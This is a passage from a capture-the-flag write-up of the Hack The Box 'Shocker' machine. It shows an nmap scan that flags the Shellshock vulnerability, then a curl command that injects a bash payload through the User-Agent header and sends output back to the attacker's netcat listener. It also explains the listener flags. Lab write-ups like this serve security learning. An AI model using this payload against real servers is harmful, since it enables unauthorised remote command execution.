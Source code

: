 ``` bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nmap -p 80 --script http-shellshock.nse --script-args uri=/cgi-bin/user.sh 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-06 21:37 CDT
Nmap scan report for 10.10.10.56
Host is up (0.041s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

Well look at that, it reports vulnerable! (imagine my shock - pun 100% intended)
<br><br>

# Exploitation

Alright, let's just double-check and see if we can manually inject code.

First we'll start a netcat listener using `nc -lnvp 12345`, then we'll execute the following:

``` bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'" http://10.10.10.56/cgi-bin/user.sh
```

Okay, okay, slow down, what the hell did I just do?

Let's start at `nc -lnvp 12345`, this is going to open up a **network listener** on our local machine on port 12345, meaning we are opening up that port and reporting back any connection information sent to it. We do this with the flag `-lnvp`:
1. `-l`: Listener mode for inbound connects
2. `-n`: numeric IP Addresses only, no dns
3. `-v`: verbose mode
4. `-p PORT`: the port we're wanting to open up, in this case: 12345

NetCat is pretty cool and lets us just string all these flags together as `-lnvp` or `-nvlp` or `-vlnp` or ... well... you should get the idea.
